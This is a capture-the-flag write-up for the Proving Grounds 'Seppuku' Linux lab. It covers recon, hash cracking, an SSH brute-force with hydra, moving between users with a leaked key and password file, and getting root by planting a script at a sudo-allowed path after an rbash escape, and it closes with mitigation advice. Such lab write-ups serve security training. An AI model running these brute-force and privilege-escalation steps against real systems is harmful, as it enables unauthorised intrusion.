


<!-- writeup-meta
title: Seppuku
platform: Proving Grounds Play
os: Linux
difficulty: Easy
ip: 192.168.182.90
date: 2026-10-18
tags:
  - writeup
  - linux
  - smb
  - password-cracking
  - lateral-movement
  - sudo
  - rbash
  - privesc
-->
# Seppuku

> [!NOTE]
> **TL;DR** — A sprawl of exposed services; port 7601 leaks a `/secret` directory holding a deliberate rabbit-hole hash and a short password list. SMB hands over usernames, and an SSH brute-force with those lists lands `seppuku`. Root is a four-user chain: a private key in the web root gives `tanto`, a `.passwd` file in seppuku's home gives `samurai`, and samurai's sudo rule runs a **tanto-owned** script as root — so you plant the script as tanto, break out of samurai's restricted shell, and run it.
>
> **Path:** `/secret` wordlist + SMB users → SSH brute (`seppuku`) → web-root private key (`tanto`) → `.passwd` (`samurai`) → samurai sudo + tanto-planted script + rbash breakout → root

## 1. Recon

### 1.1 Nmap

A lot of surface — three web servers, FTP, SMB, SSH:

```shellsession
$ nmap -Av -sS -p- 192.168.182.90
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2
80/tcp   open  http        nginx 1.14.2        (401 Basic realm=Restricted Content)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian
7080/tcp open  ssl/http    LiteSpeed httpd     (OpenLiteSpeed 1.6)
7601/tcp open  http        Apache httpd 2.4.38 (title: Seppuku)
8088/tcp open  http        LiteSpeed httpd     (title: Seppuku)
```

**Triage of each service:**

| Port | Service | Notes |
|---|---|---|
| 21 | FTP | No anonymous login |
| 80 | nginx | HTTP Basic-auth prompt — no creds yet |
| 139/445 | SMB | WORKGROUP — enumerate for users |
| 7080 | OpenLiteSpeed 1.6 | Admin console, no creds |
| 7601 | Apache | A Seppuku image; the directory listing is the real surface |
| 8088 | LiteSpeed | Same image, fronting a **WebConsole** login |

Port 7601 and 8088 both serve the box's theme image:



Port 8088 fronts a WebConsole ([web-console.org](http://web-console.org/)) login — a possible RCE foothold, but the box gives up SSH credentials first, so I didn't need it:



### 1.2 Port 7601 — the /secret leak

feroxbuster on 7601 turns up single-letter directories, a wordlist, and a `/secret`:

```shellsession
$ feroxbuster -u http://192.168.182.90:7601/ -x php,html,txt
200      GET      http://192.168.182.90:7601/w/password.lst
301      GET      http://192.168.182.90:7601/database => .../database/   (empty)
301      GET      http://192.168.182.90:7601/secret   => .../secret/
```

`/secret` holds `hostname`, `jack.jpg`, `passwd.bak`, the same `password.lst`, and **`shadow.bak`** — which carries a sha512crypt (`$6$`) hash for a user literally named `rabbit-hole`.

> [!WARNING]
> **Rabbit hole (by name and nature).** The `shadow.bak` hash cracks instantly against the box's own `password.lst`, but SSH as `rabbit-hole` fails — the name is the hint. The genuinely useful loot here is the **wordlist**, not the hash.
>
> ```shellsession
> $ hashcat -m 1800 -a 0 hash.txt password.lst
> $6$...(rabbit-hole sha512crypt)...:[REDACTED]
> ```

### 1.3 SMB — usernames

SMB enumeration gives a set of real users to feed a brute-force:

```
seppuku   samurai   tanto   debian
```

## 2. Foothold

### 2.1 SSH brute-force

The box handed over both halves of the attack: the usernames (SMB) and a tailored wordlist (`password.lst`). Spraying them at SSH lands a hit:

```shellsession
$ hydra -L user.lst -P password.lst 192.168.182.90 ssh
[22][ssh] host: 192.168.182.90   login: seppuku   password: [REDACTED]
```

```shellsession
$ ssh seppuku@192.168.182.90
seppuku@lab-pg-10-debian10-seppuku1-240-132:~$ id
uid=1000(seppuku) gid=1000(seppuku) groups=1000(seppuku),24(cdrom),...
```

- **Initial access as:** `seppuku`
- **local.txt:** `[REDACTED]`

## 3. Privilege Escalation

Root is a chain across four users — `seppuku` → `tanto` → `samurai` → `root` — and each hop supplies a piece the final step needs.

### 3.1 seppuku — a dead-end sudo rule

```shellsession
seppuku@...:~$ sudo -l
User seppuku may run the following commands:
    (ALL) NOPASSWD: /usr/bin/ln -sf /root/ /tmp/
```

> [!WARNING]
> **Dead end.** This only creates a root-owned symlink `/tmp/root → /root`. The link's *target* permissions still apply, so seppuku can't read `/root` through it. Noted and abandoned.

### 3.2 Lateral to tanto — a private key in the web root

Browsing the filesystem, `/var/www/html/keys` holds a private SSH key. Tried against each known user, it logs in as **tanto**:

```shellsession
$ ssh tanto@192.168.182.90 -i private
tanto@lab-pg-10-debian10-seppuku1-240-132:~$ id
uid=1002(tanto) gid=1003(tanto) groups=1003(tanto)
```

tanto's home is empty and he has no sudo rights — this looks like another dead end, but hold onto it: **tanto ownership is the key to root**.

### 3.3 Lateral to samurai — a stray .passwd

Back in seppuku's home, a `.passwd` file contains a lone string. Tried as a password for the remaining users, it works for **samurai**:

```shellsession
seppuku@...:~$ su samurai
Password:
samurai@...:/home/seppuku$ id
uid=1001(samurai) gid=1002(samurai) groups=1002(samurai)
```

### 3.4 samurai → root — planted script + rbash breakout

samurai's sudo rule is the payoff:

```shellsession
samurai@...:$ sudo -l
User samurai may run the following commands:
    (ALL) NOPASSWD: /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

> [!IMPORTANT]
> **Vector:** samurai may run `/home/tanto/.cgi_bin/bin` (the traversal just resolves to that path) as root — but the file doesn't exist, and it lives in **tanto's** home. Since 3.2 gave me tanto, I can create the script, then execute it as root through samurai's rule.

As tanto, plant the payload. It runs as root via sudo, so `su -` drops to a root shell without a password:

```shellsession
tanto@...:~$ mkdir -p ~/.cgi_bin
tanto@...:~$ printf '#!/bin/bash\nsu -\n' > ~/.cgi_bin/bin
tanto@...:~$ chmod +x ~/.cgi_bin/bin
```

Back as samurai, the first attempt hits a restricted shell — rbash refuses a command path containing `/`:

```shellsession
samurai@...:$ sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
rbash: /../...: restricted: cannot specify `/' in command names
```

Break out of rbash first, then run it:

```shellsession
samurai@...:$ bash --noprofile
samurai@...:$ sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
root@lab-pg-10-debian10-seppuku1-240-132:~# id
uid=0(root) gid=0(root) groups=0(root)
```

### 3.5 Root

```shellsession
root@lab-pg-10-debian10-seppuku1-240-132:~# cat /root/proof.txt
[REDACTED]
```

- **Escalated to:** `root`
- **proof.txt:** `[REDACTED]`

## 4. Lessons Learned

- **When the box hands you a wordlist, it's for this box.** `/w/password.lst` plus the SMB usernames is a targeted SSH brute-force — far faster than `rockyou`. The box was practically pointing at its own front door.

- **A named rabbit hole is still a rabbit hole.** `shadow.bak` for `rabbit-hole` cracked cleanly and led nowhere; the name was the warning. The useful artifact in `/secret` was the wordlist, not the hash.

- **Collect every foothold — the useless one may be the key.** tanto had an empty home and no sudo, so it felt like a dead end. But the root step needed a file *owned by tanto*, so that access was essential. Don't discard a shell just because it looks inert.

- **Read sudo rules as literal, writable paths.** samurai's rule pointed at a non-existent, traversal-obfuscated path in another user's home. If you control that user, you control what runs as root.

- **rbash is not a boundary.** It blocked a `/` in the command name, but `bash --noprofile` escaped it in one line. Never treat a restricted shell as security.

- **New technique for my notes:** plant a payload at a sudo-referenced path you control via a second user; rbash breakout with `bash --noprofile`.

## 5. Mitigation

- **Don't serve secrets over HTTP.** `/secret` exposing `shadow.bak`, `passwd.bak`, a private key, and a password list is the entire foothold. Keep these out of any web root.

- **Don't ship a box-wide wordlist as the password policy.** Enforce strong, unique passwords and rate-limit SSH (e.g. `fail2ban`); the brute-force only works because the passwords are in a file on the server.

- **Fix the sudo rules.** Both are dangerous: grant exact, root-owned, absolute command paths — never a path in another user's home, never with traversal, never a wildcard argument.

- **Don't rely on rbash.** A restricted shell is trivially escaped and should never be the only control over what a user can run.

## References

- [hashcat — mode 1800 (sha512crypt)](https://hashcat.net/wiki/doku.php?id=example_hashes)
- [GTFOBins — bash (restricted shell escape)](https://gtfobins.github.io/gtfobins/bash/)
- [HackTricks — escaping from restricted shells (rbash)](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions)
